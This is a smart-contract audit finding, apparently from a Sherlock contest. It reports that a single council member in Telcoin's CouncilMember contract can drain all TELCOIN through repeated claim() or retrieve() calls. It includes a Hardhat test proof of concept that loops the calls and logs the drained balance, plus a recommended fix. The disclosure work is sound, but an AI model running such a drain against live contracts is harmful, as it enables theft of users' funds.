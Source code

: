 Little Brick Blackbird

high

# Council member can claim all Balance of contract


## Summary
A single council member can steal the entire amount of TELCOIN by essentially calling claim() or retrieve(), even though it is protected by OnlyAuthorized. This modifier only checks if the user has an NFT or the GOVERNANCE_COUNCIL_ROLE.

## Vulnerability Detail
A single council member, possessing one NFT, can exploit the claim() function to drain all TELCOIN. The Proof of Concept below illustrates how this can be achieved, pinpointing the specific issue. 

Add it in CouncilMember.test.ts and run it using 
```shell
npx hardhat test --grep "draining the contract should not fail"
```

```typescript
       describe("draining the contract should not fail", () => {
            it("a single user can claim all Telcoin calling claim ", async () => {
                await expect(councilMember.mint(member.address));

                for (let i = 0; i < 100; i++) {
                    await expect(councilMember.connect(member).claim(0, 100)).to.not.reverted;
                }
                
                
                console.log( await telcoin.balanceOf(member));
            });
        
            it("a single user can claim all Telcoin calling claim", async () => {
                await expect(councilMember.mint(member.address));
                for (let i = 0; i < 100; i++) {
                    await expect(councilMember.connect(member).retrieve()).to.not.reverted;
                    // Your loop logic here
                }
               
                await expect(councilMember.connect(member).claim(0, await councilMember.balances(0))).to.not.reverted;
                
                console.log( await telcoin.balanceOf(member));
            });
        });
 ```
In this PoC, we mint 1 NFT for a regular member. In the first test, we demonstrate the member's ability to abuse the claim() function by calling it 100 times.This number can be increased as desired. In the second part, the same process is replicated with the user calling retrieve(). 
This vulnerability arises because the retrieve() function updates the user's balance repeatedly without any limitation.


## Impact
A single council member with ownership of one NFT can exploit the contract, which can lead to the theft of all TELCOIN.

## Code Snippet

https://github.com/sherlock-audit/2024-01-telcoin/blob/main/telcoin-audit/contracts/sablier/core/CouncilMember.sol#L92-L111
https://github.com/sherlock-audit/2024-01-telcoin/blob/main/telcoin-audit/contracts/sablier/core/CouncilMember.sol#L82-L84


## Tool used

Manual Review

## Recommendation
To address this issue, I recommend the team to implement the following two actions from my perspective:

1)Remove the _retrieve() from the claiming function to prevent the increment of the user's balance upon each call.

2)Safeguard the retrieve() function by allowing only GOVERNANCE_COUNCIL_ROLE to call it when necessary for updating all balances.

The test uses the exact PoC mentioned above. If the recommended changes are implemented correctly, the test will fail.

